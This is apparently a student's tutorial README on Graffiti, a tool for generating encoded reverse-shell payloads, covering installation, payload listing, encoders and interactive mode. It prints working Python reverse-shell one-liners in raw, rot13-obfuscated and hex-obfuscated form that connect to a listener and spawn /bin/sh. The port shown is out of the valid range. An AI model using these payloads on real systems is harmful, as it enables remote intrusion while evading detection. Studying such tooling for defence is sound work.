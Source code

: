 # Study of one of the hacking SUBJECT 
<p align="center">
  <img src="https://user-images.githubusercontent.com/14183473/49157062-8a351500-f2e4-11e8-80cd-00acd809171e.png">
</p>

# What GRAFFITI is?
Graffiti is a tool that uses a number of different encoding techniques to create obfuscated payloads.

### It offers an array of one-liners and shells in languages such as:

 - Python
 - Perl
 - PHP
 - Powershell
 - Bash

Graffiti will also accept a language that is not currently on the list and store the oneliner into a database.

### Payloads can be encoded using the following techniques:

 - Base64
 - Hex
 - AES256
 - ...



### Features

 - Option to run native OS commands
 - Multiple encoding techniques 
 - Terminal history
 - Ability to run external commands
 - Ability to securely wipe the history files
 - Ability to create your own payload files
 
# What is the mechanism how to do it?
First, we need to clone into the Github for [Graffiti](https://github.com/Ekultek/Graffiti) by using `git` command

![e1800918](pic/1.PNG)

Then get into that directory and list everything to compare what is missing or not by using `ls` command

![e1800918](pic/2.PNG)

Graffiti comes with a builtin terminal, when you pass no flags to the program it will drop into the terminal. The terminal has history, the ability to run external commands, and it's own internal commands. In order to get help, type `graffiti -h`:

![e1800918](pic/3.PNG)

# Now, let's the running begins

The easy way to run Graffiti is in normal command-line mode. All we have to do is pass the arguments after the command, just like you would with any other tool or script. For example, we can list all available payloads with the `-l` command

![e1800918](pic/4.PNG)

We can see that there are options segregated between Windows and Linux for [Netcat shells](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-netcat-swiss-army-knife-hacking-tools-0148657/), [Python shells](https://wiki.python.org/moin/PythonShells) and several others.

Graffiti comes complete with a database that will insert each encoded payload into it, in order to allow end users to view already created payloads for future use. To see the available encoders for the payloads, type `-Vc`

![e1800918](pic/5.PNG)

The `-p` command is the staff of life of Graffiti — use it to specify a payload, followed by `-c` to specify the encoding technique, and finally `-lH` and `-lP` to set the listening address and port, respectively. Here's a raw-format Python reverse shell which means no encoding:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c raw -lH 18.0.9.18 -lP 1800918
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("18.0.9.18",1800918));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

That will spit out the command for the appropriate reverse shell with all the information filled in.

Let's seek a different example. but encoded in rot13:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c rot13 -lH 18.0.9.18 -lP 1800918
python -c 'exec("vzcbeg fbpxrg,fhocebprff,bf;f=fbpxrg.fbpxrg(fbpxrg.NS_VARG,fbpxrg.FBPX_FGERNZ);f.pbaarpg((\"18.0.9.18\",1800918));bf.qhc2(f.svyrab(),0); bf.qhc2(f.svyrab(),1); bf.qhc2(f.svyrab(),2);c=fhocebprff.pnyy([\"/ova/fu\",\"-v\"]);".decode("rot13"))'

```

Another one with hex:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c hex -lH 18.0.9.18 -lP 1800918
python -c 'exec("696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e65637428282231382e302e392e3138222c3138303039313829293b6f732e6475703228732e66696c656e6f28292c30293b206f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b".decode("hex"))'

```

Graffiti keeps a cache of payloads like a history for easy access, don't need to run those commands above again. Use the `-vC` option to see them:

![e1800918](pic/6.PNG)

We can also clear the history with the `-W` command:

![e1800918](pic/7.PNG)

# The other way to run Graffiti is in its interactive mode, which comes with a built-in terminal environment. There are more commands and clearly informations.

First of all, just type in `graffiti`:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti

  ________              _____  _____.__  __  .__
 /  _____/___________ _/ ____\/ ____\__|/  |_|__|
/   \  __\_  __ \__  \\   __\\   __\|  \   __\  |
\    \_\  \  | \// __ \|  |   |  |  |  ||  | |  |
 \______  /__|  (____  /__|   |__|  |__||__| |__|
        \/           \/
 v(0.0.10)

no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti#

```

Let's take a look at the help menu, type `help` or `?` :

![e1800918](pic/8.PNG)

We can check if we have the up-to-date version of the graffiti by `check` command:

![e1800918](pic/9.PNG)

We can get Linux kernel version and some other system information with the `uname -a` command in Linux.

![e1800918](pic/10.PNG)

The `list` command will show all the available payloads but not clearly allocated like the `-l` switch from the normal command-line mode:

![e1800918](pic/11.PNG)






